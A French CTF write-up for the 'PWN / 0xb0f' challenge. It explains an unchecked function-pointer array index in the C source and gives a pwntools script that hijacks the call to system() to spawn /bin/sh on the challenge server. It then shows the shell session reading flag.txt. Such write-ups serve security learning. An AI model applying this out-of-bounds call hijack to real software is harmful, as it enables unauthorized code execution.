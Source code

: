 ## PWN / 0xb0f

<p align="center">
  <img src="img/consignes.png" />
</p>

### Fichiers

- [Code source](0x00b.c)
- [Binaire](0x00b)
- [Linker](ld-musl-x86_64.so.1)

Le code source nous est donnée, ce qui est plus simple pour l'analyse statique, ainsi que le linker cette fois. Effectivement, le binaire ne se lance pas en local (pas la bonne libc), mais on peut le patcher avec ![pwninit](https://github.com/io12/pwninit)

```bash
$ pwninit --bin 0x00b --ld ld-musl-x86_64.so.1
```

Et on récupère un `0x00b_patched` qui fonctionne.


```bash
$ checksec --file=0x00b_patched
RELRO           STACK CANARY      NX            PIE
Partial RELRO   Canary found      NX enabled    No PIE
```



### Code source

```c
void (*functions[2])(char *);
char user_input[100];

void get_input(char *buffer){ fgets(buffer, 100, stdin); }

void execute(char *buffer){ system(buffer); }

int main()
{
    puts("Fill the buffer:");
    fgets(user_input, 100, stdin);
    functions[0] = &puts;
    functions[1] = &get_input;

    char *input = NULL;
    size_t input_len = 0;

    char input_buffer[100];

    while (1)
    {
        printf("0: puts\n"
               "1: get_input\n"
               " >> ");
        if (getline(&input, &input_len, stdin) == -1)
            break;

        int choice = atoi(input);
        functions[choice](input_buffer);
    }
}
```

Le programme nous permet :
- de remplir un buffer `user_input`
- d'appeler une fonction `puts` ou `get_input` sur un autre buffer `input_buffer`


La vulnérabilité vient de la façon dont est construit le tableau de pointeur de fonctions `functions` et surtout de l'appel à une des fonctions pointées sans contrôler le choix de l'utilisateur.
- si on appelle `0` c'est `puts`
- si on appelle `1` c'est `get_input`

En revanche si l'on appelle un indice plus grand ? Et bien le programme va aller chercher sur la stack l'adresse qui se trouve à `*functions[i]`


### Exploit


Comme on contrôle le buffer situé juste après `functions`, on peut écrire dedans l'adresse de `execute()` et appeler une `functions` avec un indice plus élevé que `1`.

Du coup on aura appelé `execute(input_buffer)`

En ayant pris soin auparavant d'écrire dans le buffer la commande de notre choix.

- code : [0x00b.py](0x00b.py)

```python
execute = 0x00000000004011ad

# write execute address into buffer user_input
payload = p64(execute) * 10
payload += b"A" * (100 - len(payload) -1 )
payload +=b'\n'

r = conn()

r.send(payload)

# write commande into buffer input_buffer
r.send(b'1\n')
r.send(b'/bin/sh\x00\n')

# call execute(input_buffer)
r.send(b'4\n')
r.interactive()
```




```bash
$ python3 0x00b.py
[+] Opening connection to pwn.pwnme.fr on port 7004: Done
[*] Switching to interactive mode
Fill the buffer:
$ id
uid=100(player) gid=101(ctf) groups=101(ctf)
$ ls
0x00b
entry.sh
flag.txt
$ cat flag.txt
PWNME{3a2d78fdc823736af2bd10a35a439b08}
```
